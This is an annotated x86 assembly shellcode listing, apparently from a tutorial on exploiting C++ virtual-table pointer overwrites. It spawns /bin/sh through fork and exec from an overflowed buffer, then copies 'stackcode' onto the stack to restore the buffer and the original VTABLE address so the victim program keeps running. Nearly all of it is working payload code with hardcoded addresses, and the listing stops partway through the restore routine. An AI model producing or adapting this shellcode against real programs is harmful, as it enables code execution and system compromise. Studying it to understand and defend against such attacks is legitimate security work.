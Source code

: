 xorl   %eax,%eax                        //EAX=0
movl   $0x804a874,%edi                  //EDI=$BufferAddress+$NullOffset
                                        // (address of NULL dword in our
                                        // buffer)
stosl  %eax,%es:(%edi)                  //we write this NULL in the buffer
movl   $0x804a87f,%edi                  //EDI=$BufferAddress+$BinSh00Offset
                                        // (address of 00h from "/bin/sh")
stosb  %al,%es:(%edi)                   //we write this 00h at the end of
                                        // "/bin/sh"
movb   $0x2,%al
int    $0x80                            //fork()
xorl   %edx,%edx                        //EDX=0
cmpl   %edx,%eax
jne    0x804a8c1                        //if EAX=0 then jump to LFATHER
                                        // (EAX=0 if father process)

movb   $0xb,%al                         //else we are the child process
movl   $0x804a878,%ebx                  //EBX=$BufferAddress+$BinShOffset
                                        // (address of "/bin/sh")
movl   $0x804a870,%ecx			//ECX=$BufferAddress+$BinShAddressOffset
                                        // (adresse of address of "/bin/sh")
xorl   %edx,%edx                        //EDX=0h (NULL)
int    $0x80                            //exec() "/bin/sh"

LFATHER:
movl   %edx,%esi                        //ESI=0
movl   %edx,%ecx			//ECX=0
movl   %edx,%ebx			//EBX=0
notl   %ebx				//EBX=0xFFFFFFFF
movl   %edx,%eax			//EAX=0
movb   $0x72,%al			//EAX=0x72
int    $0x80                            //wait() (wait an exit from the shell)
xorl   %ecx,%ecx			//ECX=0
movb   $0x31,%cl			//ECX=$StackCodeSize
movl   $0x804a8e2,%esi			//ESI=$BufferAddress+$StackCodeOffset
                                        // (address of beginning of the
                                        // stackcode)
movl   %ebp,%edi                        //EDI point to the end of or local
                                        // variable
subl   %ecx,%edi                        //EDI point to the beginning of or
                                        // local variable
movl   %edi,%edx                        //EDX also point to the beginning of
                                        // or local variable
repz movsb %ds:(%esi),%es:(%edi)        //copy our stackcode into our local
                                        // variable on the stack
jmp    *%edx                            //run our stackcode on the stack

stackcode:
movl   $0x804a913,%esi			//ESI=$BufferAddress+$NewBufferOffset
                                        // (point to the new string we want to
                                        // rewrite in the buffer)
movl   $0x804a860,%edi                  //EDI=$BufferAddress (point to the
                                        // beginning of our buffer)
xorl   %ecx,%ecx			//ECX=0
movb   $0x9,%cl                         //ECX=$NewBufferSize (length of the
                                        // new string)
repz movsb %ds:(%esi),%es:(%edi)        //copy the new string at the
                                        // beginning of our buffer
xorb   %al,%al				//AL=0
stosb  %al,%es:(%edi)                   //put a 00h at the end of the string
movl   $0x804a960,%edi			//EDI=$BufferAddress+$VPTROffset
                                        // (address of VPTR)
movl   $0x8049730,%eax                  //EAX=$VTABLEAddress (adresse of the
                                        // original VTABLE from our class)
movl   %eax,%ebx			//EBX=$VTABLEAddress